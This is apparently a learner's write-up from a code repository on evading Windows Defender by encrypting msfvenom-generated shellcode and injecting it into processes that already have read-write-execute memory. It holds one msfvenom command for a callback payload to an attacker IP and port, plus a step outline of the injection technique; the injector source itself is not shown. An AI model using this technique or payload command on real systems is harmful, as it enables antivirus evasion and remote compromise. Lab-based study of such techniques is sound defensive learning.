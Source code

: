 ### Introduction

So I don't know why, but i've done some malware analysis (still a noob btw), i've also tried some malware development(still a noob btw) in an environment 
where windows defender was always disabled and i've never tried bypassing it. So I decided to start with something simple.
I started with a simple google search...How to bypass windows defender and i stumbled on 2 blog post, one was related to Loki C2 and the 
other with injecting shellcode inside a process that already had READ,WRITE AND EXECUTE memory sections.

And before you say it, yes, i know, it's already a known fact, it's easy to bypass windows...but to do it yourself is still learning. It's one thing
to just take a working code and just run it, but it's another thing to take the code understand it and modify it to the way you like.
That's why i learned reverse engineering, because you need to be able to understand the inner workings of anything you touch. I think
that's what make the difference between people in this field!

I guess you already know which one I chose to start with, i chose latter.
Here's the blog I used as a reference : https://medium.com/@s12deff/bypass-windows-defender-executing-shellcode-using-freeloaderinjector-7deeba8796e2
In that blog he use the undocumented API : `ntdll.dll`. I didn't want to just copy and paste it, so i adapted is code to use it with the documented API
and I removed unnecessary stuff, which provided me a good practice and refresher.


### Setup

- Kali VM
- Windows 10 VM
- Visual Studio
- Metasploit
- Your Head
- ChatGPT (for reference of course😆)


### Walkthrough

1. So first, I started by generating a shellcode with msfvenom : `msfvenom -p <PAYLOAD> LHOST=<YOUR_IP> LPORT=<PORT> -f c > <NAME>.c`
2. Encrypt the payloadm I have an encryptor program that i used, you can find it on my Github (you can create your own too) : `Crypter`
3. The main program will
    - Get an handle on each processes and duplicate them (for future implementations i duplicate them, to be able to perform additionnal executions)
    - Check if the process has RWX memory section and get that address in memory
    - Decrypt the payload and inject it into that section
4. Build the executable as Release and upload it to your windows vm

![POC](poc.png)

### Conclusion

I think, that next i want to either try a dll sideloading and then move on to using Loki with electron apps that also uses dll sideloading attacks,
there's a good write-up on it [here](https://www.ibm.com/think/x-force/bypassing-windows-defender-application-control-loki-c2), if you want to take a head start!

